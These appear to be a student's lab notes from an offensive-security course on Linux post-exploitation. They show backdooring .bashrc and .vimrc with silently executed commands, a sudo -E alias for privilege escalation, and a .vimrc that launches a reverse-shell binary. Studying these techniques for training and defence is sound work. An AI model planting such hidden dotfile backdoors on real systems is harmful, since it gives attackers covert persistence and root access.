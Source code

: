 # Linux post exploitation

372

linux is used on server

# user configuration files

dotfiles

.bash_profile and .bashrc - to put environement variables and load scripts whene a user initially logs onto a system

```
 echo "touch /tmp/bashtest.txt" >> ~/.bashrc
```

# VIM Config Simple Backdoor

vimrc in .vimrc file comtains the configuration file for vim

`echo ":echo 'this is a test'" >> .vimrc`

`echo "!touch /tmp/test.txt" >> .vimrc`

we can source a shell script using the bash source command.

we can import other vim configuration files into users cuirrent duir with source command we add silent so that the script is not shown.

`echo ':silent !source ~/.vimrunscript' >> .vimrc`
we create a shell script file /home/offsec/.vimrunscript `echo "hacked" >  /tmp/hacksrcout.txt`

we can add alias into the .bashrc file

`echo 'alias sudo="sudo -E"' >> ~/.bashrc`

`source ~/.bashrc` for making effect the changes

we can look at file permission through 

`sudo -l`


### 10.1.1.1 Exercises
1. Backdoor VIM as described in the module by modifying the user’s .vimrc file directly and 
running a command while silencing the output.

2. Backdoor VIM by adding a script to the VIM plugins folder.

3. Backdoor VIM by sourcing a secondary shell script in the user’s .vimrc file while silencing the 
output.
4. Create an alias for the user for sudo to preserve the user’s environment and activate it by 
sourcing the user’s .bashrc file. Then execute a command as root by running VIM as sudo.
5. Using the linuxvictim user, run VIM via sudo and get a root shell using the :shell command.

all exercises done

### 10.1.1.2 Extra Mile
Get a reverse shell using the above VIM backdoor as root.

```sh
└─$ cat vimrunscript 
#!/bin/bash
echo "hacked" > /tmp/hacksrcout.txt
~/reverse.elf 
```

```sh
┌──(kali㉿kali)-[~]
└─$ cat .vimrc
:silent !source ~/vimrunscript  
```

# vim config keylogger





